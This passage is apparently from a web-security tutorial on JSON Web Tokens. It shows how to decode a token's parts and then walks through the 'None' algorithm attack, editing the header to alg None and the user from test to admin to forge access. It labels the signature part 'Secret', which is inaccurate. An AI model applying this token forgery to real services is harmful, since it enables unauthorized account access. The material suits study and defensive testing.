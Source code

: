 ```bash
echo "eyJhbGciOiAiU0gyNTYiLAogICJ0eXAiOiAiSldUIn0" | base64 -D 
```

Note: Keep in mind in mac os we use "D" instead of  "d".

##### jwt.io

just copy the whole token and paste it into `Encoded` Section and you will get decoded token in `Decoded` Section.

##### Burp Suite Decoder

Copy the whole token and go to burp suite `Decoder` tab and paste it there and select first part and click on `decode` as `base64` and do the same thing with other parts of the token.

**Note** : Don't include dot(`.`) while decoding the token.

#### None Algorithm

`None` Algorithm is used when the integrity of the token has been already verified but hackers can use this algorithm and can tamper the token and can gain unauthorized access.
Let's See How

```js
Token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.6pqwrq5XQFq3453rtw234fuZ4
```

#### JWT Token Break Down

1. eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9 (Header)
2. eyJ1c2VyIjoidGVzdCJ9 (Payload)
3. 6pqwrq5XQFq3453rtw234fuZ4 (Secret)

After Decoding:

Header:

```js
{
    "alg":"HS256",
    "typ":"JWT"
}
```

Payload:

```js
{
    "user":"test"
}
```

Now let's change "alg" from `HS256` to `None` and "user" from `test` to `admin`

Header After Changes:

```js
{
    "alg":"None",
    "typ":"JWT"
}
```
